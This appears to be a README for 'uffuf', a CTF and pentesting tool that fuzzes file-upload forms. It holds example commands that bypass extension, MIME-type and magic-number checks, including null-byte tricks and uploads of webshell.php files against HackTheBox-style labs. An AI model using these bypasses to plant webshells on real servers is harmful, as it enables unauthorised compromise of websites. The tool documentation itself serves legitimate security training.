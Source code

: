 # Unrestricted File Upload Fuzzer

uffuf is a specialized tool inspired by the popular fuzzer [ffuf](https://github.com/ffuf/ffuf). It allows users to fuzz file names, content types, and other parameters, to assist in identifying vulnerabilities related to unrestricted file uploads in web applications. It's an alternative to Burp Suite or other web proxies.

## Basic Usage

* Filename Fuzzing — Bypassing Filename Checks

```shell!
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Fn dummyFUZZ
$ # Attempt by prepending a valid extension (filter)
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Fn dummy.jpgFUZZ
$ # Attempt by appending a valid extension (misconfiguration, rare)
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Fn dummyFUZZ.jpg
```

* MIME type — Investigate the filter

```shell!
$ # Attempt MIME type bypass
$ onectf uffuf [...] -Ft image/jpeg
$ # Attempt magic number bypass
$ onectf uffuf [...] -Ft image/jpeg --spoof
```

* MIME type Fuzzing — Detect Allowed MIME types

```shell!
$ # --spoof is optional if the server don't check the magic number
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Ft FUZZ --spoof
```

## Testing

* Blacklist some extensions (`https://academy.hackthebox.com/module/136/section/1288`)

```shell!
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -Fn testFUZZ -mr "File successfully uploaded"
```

* Blacklist and whitelist extensions (`https://academy.hackthebox.com/module/136/section/1289`)

```shell!
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -Fn testFUZZ.jpg -mr "File successfully uploaded"
```

* Blacklist and whitelist extensions, MIME type and magic number checking (`https://academy.hackthebox.com/module/136/section/1290`)

```shell!
$ file webshell.php.jpg
webshell.php.jpg: JPEG image data
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -F webshell.php.jpg -Fn test.jpgFUZZ -Ft image/jpg -mr "File successfully uploaded"
```

Alternatively, we can use the `--spoof` flag:

```shell!
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -F webshell.php -Fn test.jpgFUZZ -Ft image/jpg -mr "File successfully uploaded" --spoof
```

## Roadmap

* Add an initial dummy test
* Improve Verbose Mode
* Add option to test if uploaded file is executable?
* Root-me notes

```ps
$ onectf uffuf -u URL -p file -F webshell.php -Fn dummyFUZZ -v -W .php.png
$ onectf uffuf -u URL -p file -F webshell.php -Fn dummyFUZZ -v -W .php -Ft 'image/jpeg' -H 'Cookie: PHPSESSID=xxx'
$ onectf uffuf -u URL -p file -F webshell.php -Fn dummyFUZZ -v -W '.php%00.jpg' -Ft 'image/jpeg'
$ onectf uffuf -u URL -p file -F webshell.zip -Fn dummyFUZZ -v -W .zip
$ onectf uffuf -u URL -d 'xxx=yyy' -p file -F webshell.zip -Fn dummyFUZZ -v -W .jpg
$ onectf uffuf -u URL -p 'file[]' -F webshell.jpg -Fn dummyFUZZ -v -W x.jpg
```
